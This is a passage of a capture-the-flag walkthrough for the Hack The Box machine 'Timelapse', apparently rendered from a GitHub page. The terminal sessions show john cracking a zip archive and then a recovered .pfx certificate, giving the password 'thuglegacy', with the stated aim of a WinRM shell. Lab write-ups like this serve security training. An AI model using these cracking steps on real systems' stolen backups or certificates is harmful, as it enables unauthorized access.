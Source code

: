 ```terminal
1g 0:00:00:01 DONE (2023-04-01 14:01) 0.7518g/s 2611Kp/s 2611Kc/s 2611KC/s surfroxy154..supergay01
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got the password, now let's unzip the file.

```terminal
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ unzip winrm_backup.zip                    
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx    
                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ ls
hash  legacyy_dev_auth.pfx  scans  winrm_backup.zip

```

We extracted a `pfx` file, and after some research i find that we can use the file to get a [shell over WinRM](https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/).

# **Foothold**

The first thing we need to do is extract the private key and the certificate from the `.pfx` file.

```terminal
$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key
Enter Import Password:
Mac verify error: invalid password?
```

Looks like the file is password protected.

We can use `pfx2john` to extract a hash and crack it using `john`.

```terminal
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.hash                                                                                1 ⨯
                                                                                                                                                              
┌─[sirius@ParrotOS]─[~/CTF/HTB/Machines/timelapse]
└──╼ $ john -w=/usr/share/wordlists/rockyou.txt pfx.hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:04:22 DONE (2023-04-01 14:40) 0.003808g/s 12304p/s 12304c/s 12304C/s thuglife06..thug211
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

